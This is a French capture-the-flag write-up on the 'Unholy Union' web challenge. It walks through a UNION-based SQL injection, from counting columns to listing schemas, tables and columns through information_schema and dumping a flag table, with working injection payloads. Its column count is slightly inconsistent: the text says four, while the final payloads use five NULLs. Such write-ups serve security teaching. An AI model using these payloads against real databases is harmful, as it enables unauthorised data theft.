








Unholy Union est un challenge web axé sur une `UNION SQL Injection` : l’exploitant injecte des requêtes SQL malveillantes via une entrée vulnérable, puis utilise `UNION SELECT` pour fusionner les résultats avec la requête originale et extraire le flag depuis la base de données, en ciblant notamment les tables et colonnes comme `information_schema.columns`

## SQL Injection

Dans le code source je vois bien que l’entrée utilisateur représentée par le paramètre query n’est pas filtrée.

```php
function updateQuery() {
  const query = document.getElementById("searchInput").value;
  let sqlQuery;

  // If the query is empty, show the full inventory query
  if (query === "") {
    sqlQuery = "SELECT * FROM inventory";
  } else {
    sqlQuery = `SELECT * FROM inventory WHERE name LIKE '%${query}%'`;
  }

  // Update the SQL query and re-highlight using Prism.js
  const debugQuery = document.getElementById("debugQuery");
  debugQuery.textContent = sqlQuery;
  Prism.highlightElement(debugQuery); // Re-highlight the SQL query
}

async function performQuery() {
  const query = document.querySelector("input").value;
  const container = document.getElementById("resultsContainer");

  // Perform the fetch request with the user's input
  const response = await fetch("/search?query=" + query).then((response) =>
    response.json(),
  );
```

Lorsque rien n’est mis dans le champ de recherche le résultat est le contenu de la table `inventory`.



L’affichage est filtré par nom.



Vu qu’on part pour une injection SQL, et d’après le titre du challenge, je teste un simple payload d’Union SQL. Maintenant il ne me reste plus qu’a connaitre le reste des tables et leur contenu.

```sql
p' UNION SELECT NULL, NULL, NULL, NULL -- -
```



En utilisant le payload suivant, je vois qu’il faut 4 colonnes pour la requête.

```sql
p' UNION SELECT NULL, NULL, NULL, NULL, NULL -- -
```



Maintenant il me faut obtenir les bases de données. Il y en a trois mais `halloween_invetory` attire mon attention.

```sql
p' UNION SELECT NULL, NULL, NULL, NULL, (SELECT GROUP_CONCAT(schema_name) FROM information_schema.schemata) -- -
```



Je récupère toutes les tables de la base de données `halloween_invetory`. Il y a deux tables : `flag` et `inventory`.

```sql
p' UNION SELECT NULL, NULL, NULL, NULL, (SELECT GROUP_CONCAT(table_name) FROM information_schema.tables WHERE table_schema='halloween_invetory') -- -
```



Maintenant je récupère les colonnes de la table `flag`. Il y a qu’une seule colonne : `flag`.

```sql
p' UNION SELECT NULL, NULL, NULL, NULL, (SELECT GROUP_CONCAT(column_name) FROM information_schema.columns WHERE table_name='flag') -- -
```



Maintenant je peux récupérer le contenu de la table `flag`.

```sql
p' UNION SELECT NULL, NULL, NULL, NULL, (SELECT GROUP_CONCAT(flag) From flag) -- -
```


